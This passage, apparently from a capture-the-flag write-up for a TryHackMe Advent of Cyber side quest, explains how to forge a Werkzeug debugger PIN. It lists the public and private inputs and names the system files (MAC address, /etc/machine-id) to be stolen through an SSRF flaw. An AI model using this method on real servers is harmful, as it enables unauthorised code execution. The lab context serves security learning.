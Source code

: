 Basically this posits that there is some information that is probably exposable publicly (i.e. error generation logs), and some information that is private only (requires exfiltration and not likely to be exposed...). It then takes those pieces of info and uses them to run through Werkzeug's Pin generation algorithm.
```python
probably_public_bits = [
    'web3_user',# username <= guess mcskidy based on path name
    'flask.app',# modname <= default modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__')) <= default class name
    '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None), <= from error page
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address <= exfiltrate with sqli/flask SSRS
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id <= exfiltrate with sqli/flask SSRS
]
```
Here's the bits we need to fill in. Username we can assume is "mcskidy" based on the context of the home directory it's running in, module name flask.app as a default value based on errors from the webapp, Class name "Flask", and the flask path based on the output from the error message.

```bash
/sys/class/net/eth0/address # guess at interface
/etc/machine-id
```
Some googling says this is where we'll find the private data on the system. We can use our earlier exploit to exfiltrate these values using the PyCurl SSRS vulnerability.

> The hard part: Sometimes this method doesn’t work and requires restarting the host and trying again. This is still a mystery to me.

![alt text](../../../assets/images/ctf/events/tryhackme-advent-of-cyber-23/2023-12-24-side-quest-4.md/2023-12-24-side-quest-4/image-16.png)
